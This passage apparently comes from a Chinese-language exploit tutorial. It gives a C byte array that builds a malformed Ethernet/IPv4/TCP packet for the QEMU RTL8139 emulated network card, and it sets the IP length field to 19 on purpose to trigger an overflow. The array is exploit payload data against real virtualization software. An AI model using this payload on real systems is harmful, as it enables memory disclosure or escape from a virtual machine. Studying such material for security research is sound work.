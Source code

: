 9. 设置传送的数据包中的数据，这个根据上面的前置知识中的注解配置即可

   ```
   uint8_t rtl8139_packet[] = {
       //目标mac地址
       0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 
       //源mac地址
       0x52, 0x54, 0x00, 0x12, 0x34, 0x57, 
       //代表IPV4
       0x08, 0x00, 
   
       //报头长度
       (0x04 << 4) | 0x05,    // 0x05 * 4 = 20 bytes
       //TOS
       0x00,
       //这里由于我们需要设置长度为19,从而实现溢出
       0x00, 0x13,
       //Identification
       0xde, 0xad,
       //Flags & Fragment Offset(必须为64的整数倍,所以直接设置为64)
       0x40, 0x00,
       //TTL通常为32,64,128这里直接设置为64
       0x40,           
       //Protocol为6代表TCP
       0x06,
       // Header checksum
       0xde, 0xad,
       //源IP:127.0.0.1
       0x7f, 0x00, 0x00, 0x01,
       //目的IP:127.0.0.1
       0x7f, 0x00, 0x00, 0x01,
       
       // IP Packet Payload 数据, 即 TCP 数据包
       //源端口
       0xde, 0xad,
       //目的端口
       0xbe, 0xef,
       //Sequence Number
       0x00, 0x00, 0x00, 0x00,
       //Acknowledgement Number
       0x00, 0x00, 0x00, 0x00,
       //报头长度,其中Header Length只占4位,后面的4位加上下面ACK中的2位都是保留位,保留位必须为0
       0x50,
       //从第3位开始是Control Flags,其中第4位代表ACK
       0x10,
       //Window Size
       0xde, 0xad,
       //TCP checksum
       0xde, 0xad,
       //Urgent Pointer
       0x00, 0x00
   };
   ```

